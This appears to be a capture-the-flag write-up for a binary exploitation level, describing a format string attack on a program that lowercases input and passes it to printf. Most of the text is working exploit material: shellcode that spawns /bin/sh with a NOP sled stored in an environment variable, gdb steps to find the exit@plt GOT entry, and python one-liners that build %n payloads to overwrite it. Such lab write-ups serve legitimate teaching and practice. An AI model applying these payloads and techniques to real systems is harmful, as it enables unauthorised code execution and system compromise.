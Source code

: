 In this level we have a simple program, the program simply converts our string to lowercase then prints it using printf(), a regular format string exploit would suffice.
to confirm we can print some %x and we'll see memory printed, now let's find the index of a known  address such as AAAABBBB:

![image1](ressources/image1.png)

we see that the 61616161("AAAA" turned to lowercase) is printed in the 10th position.

since the function doesn't return anything and calls exit() we will overwrite the exit function instead, we will write our shellcode in env:

export SHCODE=$(python -c 'print("\x90"*100+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')

then we look for the exit address we will be overwriting address:
0x08048513 <+207>:	call   0x8048370 <exit@plt>
disass 0x8048370
Dump of assembler code for function exit@plt:
0x08048370 <+0>:	jmp    ***0x80497e0**
x *0x80497e0
0x8048376 <exit@plt+6>:	0x00001868

printf *0x08048507


python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57010d%10$n" + "%8517d%11$n")' > payload
cat payload - | ./level05

then we'll look for our env variable where we put our shellcode:

x/200s $esp

![image2](ressources/image2.png)

now we got our env variable address 0xffffdea8, and since we have many NOP slides we are very safe adding some bytes to the address to avoid any memory shifting difference when running the program inside and outside gdb so we consider our final env variable address will be "0xffffdeba".

now we only have to write 4294958778(0xffffdeba) characters to the exit@plt address to overwrite, the problem here is that writing this much characters is impossible since it exceeds the max width value, the trick here will be to split our writing into two parts, eg : printing 0xdeba to 0x80497e0 then printing 0xffff to 0x80497e0+2 so in memory they'll be concatenated as 0xffffdeba

our payload will be as follows:

python -c 'print("\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%57014d%10$n"+"%8513d%11$n")' > payload